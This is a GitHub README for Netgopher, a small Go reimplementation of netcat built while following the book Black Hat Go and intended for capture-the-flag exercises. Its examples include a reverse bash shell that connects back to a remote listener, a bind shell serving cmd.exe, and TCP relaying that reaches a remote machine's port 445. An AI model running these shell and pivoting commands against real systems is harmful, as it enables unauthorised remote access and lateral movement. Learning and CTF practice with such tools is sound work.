


# Netgopher



This is a basic Go implementation of (some functions of) Netcat and has been produced whilst working through the very-excellent NoStarch Press book [Black Hat Go](https://nostarch.com/blackhatgo) (which wins best cover too IMO). 

This implementation of Netcat is basic and has been built up piecemeal whilst following various book sections. Notably, this tool is TCP only, with limited features (no hexdump etc.). That said, Netgopher does most things I want Netcat to do during Capture The Flag exercises, including simple out of the box port realying.

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

# Installation

You can **but probably shouldn't**  get Netgopher easily with:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well this will only install ng in your local $GOPATH; additionally, the binary will be fairly large, compiled only for your OS. 

I wrote this version to use during CTFs meaning I want a smaller binary, preferably with multi-platform support, so... **grab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

The simplest examples are the classic netcat connect and listen functions. You can try this out with a pair of listeners:



## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start the same shell on a bind listener.
This is useful in certail cases because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
# Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# Feedback?
Issues, pulls, emails, tweets all welcome!
